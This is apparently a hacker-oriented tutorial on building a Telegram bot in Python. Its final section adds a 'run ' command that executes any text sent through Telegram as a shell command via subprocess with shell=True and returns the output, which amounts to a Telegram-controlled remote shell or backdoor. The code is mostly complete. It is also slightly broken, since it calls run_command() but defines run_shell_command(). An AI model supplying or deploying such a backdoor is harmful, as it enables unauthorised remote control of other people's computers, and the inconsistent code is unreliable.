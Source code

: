 # USING TELEGRAM FOR PYTHON
### _Telegrams' api gives hackers a new way to communicate with computers_
_Author: p-i-c-o_
![Telegram Banner](telegram-banner.png)

## INTRO
Telegrams' api has been used for many things, for example: Chat Bots, News and Updates, Content Delivery, and much much more. However, using Python and a small computer, a hacker can create a bot that can run malicious code.
Let's create one together.

### INSTALLATION
Because there are some issues with the current pip distribution of the python-telegram-bot, we need to install version 13.13 specifically:
`pip3 install python-telegram-bot==13.13`

### USAGE
We need a bot to use, start a new chat on telegram with the BotFather, and create a new bot and get its bot token. Make sure no one gets it as it would give them access to your bot. Save your chat id and your bot token somewhere safe.

Using a simple script, we can now create a script that communicates with a chat bot. Here it is:
```
# ---------------------------------------------
token = "INSERT YOUR TOKEN HERE"
correct_chat_id = "INSERT YOUR CHAT ID HERE"

from telegram import Bot, Update
from telegram.ext import Updater, MessageHandler, filters
import os, subprocess
# ------------------ FUNCTIONS ------------------
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, text=True)
  return result.stdout

# --------------------- CODE --------------------

def echo(update: Update, context) -> None:
    message = update.message
    reply = None
    # ------------------ Predefined Responses ------------------
    if message.text == "Test 1":
      reply = "Success 1"
    # ----------------------------------------------------------
    bot = context.bot
    if reply != None:
      try:
        bot.send_message(chat_id=correct_chat_id, text=reply)
      except:
        bot.send_message(chat_id=correct_chat_id, text="⚠️ An error occured ⚠️")


if __name__ == "__main__":
    bot_token = token

    bot = Bot(token=bot_token)
    updater = Updater(bot=bot)
    dispatcher = updater.dispatcher
    echo_handler = MessageHandler(filters.Filters.text, echo)
    dispatcher.add_handler(echo_handler)
    updater.start_polling()
    updater.idle()
```
This script will simply reply "Success 1", when you send it "Test 1". Very simple. To create our own commands, use this format.
```
if message.text == <desired_input>:
  reply = <desired_response>
```
This script will only send the user something back nothing else.
To create something more dangerous, we can create a command runner, this would let us remotely run a command on the computer hosting this script.
```
if message.text[:4] == "run ":
  reply = run_command(message.text[4:])
```
It's that simple, but remember to define the `run_command()` function, heres one I use.
```
def run_shell_command(command):
  result = subprocess.run(command, shell=True, capture_output=True, text=True)
  return result.stdout
```
This function will run the command with bash and simply return the command line output.
The cool thing about this command running piece of code is that it detects if the user started with "run " and runs only what is after that to prevent confusion.
